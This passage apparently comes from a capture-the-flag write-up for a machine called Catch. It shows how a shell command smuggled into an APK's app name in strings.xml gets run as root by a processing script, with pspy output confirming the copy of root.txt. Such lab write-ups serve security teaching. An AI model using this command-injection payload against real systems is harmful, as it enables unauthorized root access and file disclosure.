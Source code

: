 The APP_NAME variable gets taken from the strings.xml file within the apk. Furthermore, we also need to sign the apk, since the script checks if the apk is signed and exits if not. 

The easiest way to get the flag is to simply rename the apk we downloaded earlier in the strings.xml file to: 

`Catch; cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt`

This will copy the flag to /tmp and make it readable.

I built the apk using apktool: 

`java -jar apktool_2.6.1.jar b catchv1.0`

And then signed it via uber-apk-signer. Once this was done i moved it into the apk_bin folder and waited with pspy:
```console
2022/06/16 17:37:01 CMD: UID=0    PID=528805 | jarsigner -verify /root/mdm/apk_bin/b07b3f441e5934c62058bcd9.apk 
2022/06/16 17:37:02 CMD: UID=0    PID=528825 | 
2022/06/16 17:37:02 CMD: UID=0    PID=528823 | /bin/bash /usr/bin/apktool d -s /root/mdm/apk_bin/b07b3f441e5934c62058bcd9.apk -o /root/mdm/process_bin 
2022/06/16 17:37:02 CMD: UID=0    PID=528826 | 
2022/06/16 17:37:02 CMD: UID=0    PID=528827 | expr xd : x-J 
2022/06/16 17:37:08 CMD: UID=0    PID=528847 | /lib/systemd/systemd-udevd 
2022/06/16 17:37:14 CMD: UID=0    PID=528851 | grep -oPm1 (?<=compileSdkVersion=")[^"]+ /root/mdm/process_bin/AndroidManifest.xml 
2022/06/16 17:37:14 CMD: UID=0    PID=528856 | 
2022/06/16 17:37:14 CMD: UID=0    PID=528855 | sh -c mkdir Catch; cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt 
2022/06/16 17:37:14 CMD: UID=0    PID=528854 | xargs -I {} sh -c mkdir {} 
2022/06/16 17:37:14 CMD: UID=0    PID=528858 | chmod 777 /tmp/root.txt 
2022/06/16 17:37:14 CMD: UID=0    PID=528859 | mv /root/mdm/apk_bin/b07b3f441e5934c62058bcd9.apk /root/mdm/certified_apps/Catch; cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt/catchv1_verified.apk 
2022/06/16 17:37:14 CMD: UID=0    PID=528860 | rm -rf /root/mdm/process_bin
```
I could then read the flag in the /tmp directory. Success!